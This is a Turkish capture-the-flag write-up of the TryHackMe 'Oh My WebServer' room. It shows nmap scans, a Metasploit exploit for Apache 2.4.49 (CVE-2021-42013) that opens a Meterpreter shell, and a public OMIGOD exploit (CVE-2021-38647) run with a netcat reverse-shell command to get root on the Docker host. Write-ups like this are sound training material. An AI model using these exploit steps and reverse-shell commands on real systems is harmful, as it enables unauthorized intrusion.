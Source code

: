 ---
title: 'TryHackMe | Oh My WebServer WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [remote code execution]
render_with_liquid: false

## Özet

Oh My WebServer, Remote Code Execution zafiyetine sahip bir orta seviye bir web uygulamasıdır. Apache httpd'nin 2.4.49 sürümünde bulunan bu zafiyeti sömürecek ve sistemden shell alacağız. Sonrada aynı ağ içerisinde başka bir cihazın daha olduğunu öğrenecek ve cihazın üzerinde çalışan zafiyetli bir porttan yararlanarak sistemden tam yetkili olarak bir bağlantı alacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.247.179
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

Tarama sonucunda 80 portu üzerinde Apache httpd'nin 2.4.49 sürümünün çalıştığını gördüm. Bu sürüm üzerinde bir `Remote Code Execution` zafiyeti bulunuyor. Bu zafiyeti sömürmek için bir metasploitte bir exploit bulunuyor.

## Sömürü aşaması

```console
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> run
[*] Started reverse TCP handler on 10.21.66.61:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://10.10.247.179:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://10.10.247.179:80 - Attempt to exploit for CVE-2021-42013
[*] http://10.10.247.179:80 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] Sending stage (3045380 bytes) to 10.10.247.179
[*] Meterpreter session 1 opened (10.21.66.61:4444 -> 10.10.247.179:49630) at 2025-03-29 17:16:48 -0400
[!] This exploit may require manual cleanup of '/tmp/qKPGzNTp' on the target

(Meterpreter 1)(/bin) >
```

Modülü seçtikten sonra gerekli bilgileri doldurdum, exploiti çalıştırdım ve sistemden bir shell elde ettim.

## Yetki yükseltme

### root

`sysinfo` komutunu kullandıktan sonra sisteme atanan IP adresinin `172.17.0.2` olduğunu öğreniyorum.

```console
(Meterpreter 1)(/home) > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.10 (Linux 5.4.0-88-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

IP adresleri rastgele atılmadığından `172.17.0.1` adresinde de bir makine olduğunu düşündüm. Bu makinenin portlarını tespit etmek için bir port tarama aracına ihtiyacımız var. [Bu](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) adresten nmap'in derlenmiş halini indirip, karşı sisteme yüklüyorum.

```console
(Meterpreter 1)(/tmp) > upload nmap
[*] Uploading  : /home/appdone/nmap -> nmap
[*] Uploaded -1.00 B of 5.67 MiB (0.0%): /home/appdone/nmap -> nmap
[*] Completed  : /home/appdone/nmap -> nmap
```

Daha sonra tüm portları taramasını istediğimde aşağıdaki portları tespit etti.

```console
./nmap 172.17.0.1 -p-
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.00034s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

Nmap sorun çıkardığından portların versiyonlarını görüntüleyemiyorum. Bunun yerine 5986 numaralı portu internette arattım ve [bu](https://github.com/AlteredSecurity/CVE-2021-38647) exploiti buldum. İndirdikten sonra çalıştırıp root haklarında bağlantıyı elde ediyoruz.

```console
python3 exploit.py
usage: exploit.py [-h] -t TARGETIP [-p TARGETPORT] [-c COMMAND] [-s SCRIPT]
exploit.py: error: the following arguments are required: -t/--TargetIP
python3 exploit.py -t 172.17.0.1 -p 5986 -c "busybox nc 10.21.66.61 1234 -e /bin/bash"
```

Bağlantıyı aldıktan sonra ise geriye sadece root.txt ve user.txt dosyalarından bayrakları almak kalıyor.

```console
cd /root
ls
root.txt
snap
cat root.txt
THM{7f14****011f}
find / -name user.txt 2>/dev/null
id
/var/lib/docker/overlay2/7bd13e3daf4d9139aff4d20f9dedfc340318dd7d2fc5cc6569f3db831a67ccee/merged/root/user.txt
/var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
uid=0(root) gid=0(root) groups=0(root)
cat /var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
THM{eacf***7ac1}
```
